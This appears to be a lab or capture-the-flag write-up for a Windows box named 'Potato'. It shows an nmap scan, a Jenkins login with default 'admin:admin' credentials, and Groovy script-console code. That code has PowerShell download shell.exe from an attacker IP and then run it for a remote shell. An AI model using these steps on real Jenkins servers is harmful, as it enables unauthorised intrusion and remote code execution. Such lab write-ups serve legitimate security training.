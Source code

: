 A pretty simple box, the only hangup is how long it takes to find the ssh port on nmap, bit of a meme and turns a 5 minute box into a waiting game.


## POTATO




### Jenkins
### NMAP
```
Nmap scan report for 172.31.1.19
Host is up, received user-set (0.18s latency).
Scanned at 2020-07-10 11:49:40 BST for 1386s
Not shown: 65521 closed ports
Reason: 65521 resets
PORT      STATE SERVICE            REASON          VERSION
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
5985/tcp  open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8080/tcp  open  http               syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
47001/tcp open  http               syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49162/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49164/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   176.29 ms 10.10.0.1
2   176.38 ms 172.31.1.19

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 10 12:12:46 2020 -- 1 IP address (1 host up) scanned in 1386.90 seconds
```
From the nmap scan we can see a HTTP Server running on port 8080. At this port there is a version of Jenkins running on it. To log in simply use the credentials "admin:admin"

Once logged in we can head to "/script" to start running commands on the box.

Upload shell.exe to the box:
```
def command = """powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.1.63/shell.exe', 'C:/Windows/Tasks/shell.exe') """
def proc = command.execute()
proc.waitFor()

println "return code: ${ proc.exitValue()}"
println "stderr: ${proc.err.text}"
println "stdout: ${proc.in.text}"
```
Run shell.exe from jenkins to get a shell
```
def command = """C:/Windows/Tasks/shell.exe"""
def proc = command.execute()
proc.waitFor()

```
